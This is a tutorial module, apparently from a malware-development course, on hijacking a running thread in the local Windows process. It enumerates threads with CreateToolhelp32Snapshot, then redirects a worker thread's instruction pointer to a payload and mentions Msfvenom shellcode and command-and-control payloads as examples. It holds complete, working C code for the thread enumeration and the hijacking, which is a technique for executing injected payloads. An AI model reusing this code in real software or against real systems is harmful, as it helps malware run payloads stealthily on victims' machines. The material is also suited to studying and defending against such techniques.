


Introduction
So far, when local thread hijacking was performed, the target thread was created using CreateThread and its context was modified. This module will demonstrate an alternative method where the system's running threads are enumerated using CreateToolhelp32Snapshot and then hijacked.
Thread Enumeration
Recall the use of CreateToolhelp32Snapshot from previous modules, where the WinAPI was used to retrieve a snapshot of the system's processes. In this module, the same WinAPI is being used but with a different value being used for the dwFlags Parameter. To enumerate the running threads on the system, the TH32CS_SNAPTHREAD flag must be specified. Using this flag, CreateToolhelp32Snapshot returns a THREADENTRY32 structure that's shown below.
typedef struct tagTHREADENTRY32 {
DWORD dwSize; // sizeof(THREADENTRY32)
DWORD cntUsage;
DWORD th32ThreadID; // Thread ID
DWORD th32OwnerProcessID; // The PID of the process that created the thread.
LONG tpBasePri;
LONG tpDeltaPri;
DWORD dwFlags;
} THREADENTRY32;Each running thread has its own THREADENTRY32 structure in the captured snapshot.
Identifying The Thread's Owner
According to Microsoft's documentation:
To identify the threads that belong to a specific process, compare its process identifier to the th32OwnerProcessID member of the THREADENTRY32 structure when enumerating the threads.
In other words, to determine the process to which the thread belongs, compare the target PID to THREADENTRY32.th32OwnerProcessID, which is the PID of the process that created the thread. If the PIDs match, then the thread presently being enumerated belongs to the target process.
Required WinAPIs
The following WinAPIs will be used to perform thread enumeration.
TH32CS_SNAPTHREAD flag to receive a snapshot of all the threads running on the system.Worker Threads
Before diving into the thread enumeration code, it's important to understand the concept of worker threads. Although CreateThread is not used in the code, the Windows operating system will create worker threads in the process. These worker threads are valid targets for thread hijacking. An example of these worker threads can be seen below.
The threads that are shown in the image above, such as ntdll.dll!EtwNotificationRegister+0x2d0, are created by the operating system to run the EtwNotificationRegister function, which is related to the ETW - Event Tracing for Windows. ETW will be explained in future modules but for now, it is sufficient to understand that this function is used to notify the operating system when a certain event occurs in the process.
Thread Enumeration Function
GetLocalThreadHandle utilizes the previously mentioned steps to perform thread enumeration. It takes 3 arguments:
dwMainThreadId - The thread ID of the main thread of the local process. This is required to avoid targeting the local process's main thread.dwThreadId - A pointer to a DWORD that receives a hijackable thread's ID.hThread - A pointer to a HANDLE that receives a handle to the hijackable thread.BOOL GetLocalThreadHandle(IN DWORD dwMainThreadId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
// Getting the local process ID
DWORD dwProcessId = GetCurrentProcessId();
HANDLE hSnapShot = NULL;
THREADENTRY32 Thr = {
.dwSize = sizeof(THREADENTRY32)
};
// Takes a snapshot of the currently running processes's threads
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE) {
printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Retrieves information about the first thread encountered in the snapshot.
if (!Thread32First(hSnapShot, &Thr)) {
printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// If the thread's PID is equal to the PID of the target process then
// this thread is running under the target process
// The 'Thr.th32ThreadID != dwMainThreadId' is to avoid targeting the main thread of our local process
if (Thr.th32OwnerProcessID == dwProcessId && Thr.th32ThreadID != dwMainThreadId) {
// Opening a handle to the thread
*dwThreadId = Thr.th32ThreadID;
*hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
if (*hThread == NULL)
printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());
break;
}
// While there are threads remaining in the snapshot
} while (Thread32Next(hSnapShot, &Thr));
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwThreadId == NULL || *hThread == NULL)
return FALSE;
return TRUE;
}Local Thread Hijacking Function
Once a valid handle to the target thread has been obtained, it can be passed to the HijackThread function. The SuspendThread WinAPI will be used to suspend the thread and then GetThreadContext and SetThreadContext will be used to update the RIP register to point to the payload's base address. Additionally, the payload must be written to the local process memory before hijacking the thread.
BOOL HijackThread(HANDLE hThread, PVOID pAddress) {
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_ALL
};
SuspendThread(hThread);
if (!GetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
ThreadCtx.Rip = pAddress;
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("\t[#] Press <Enter> To Run ... ");
getchar();
ResumeThread(hThread);
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Demo
Note that the payload execution may take some time as the hijacked thread is not the main thread and does not run continuously.

Additionally, depending on the payload, the local process may crash after execution. For example, if the payload is for a command and control server, the process will continue running, however, if Msfvenom's calc shellcode was used, the process will crash because Msfvenom's calc shellcode terminates the calling thread.
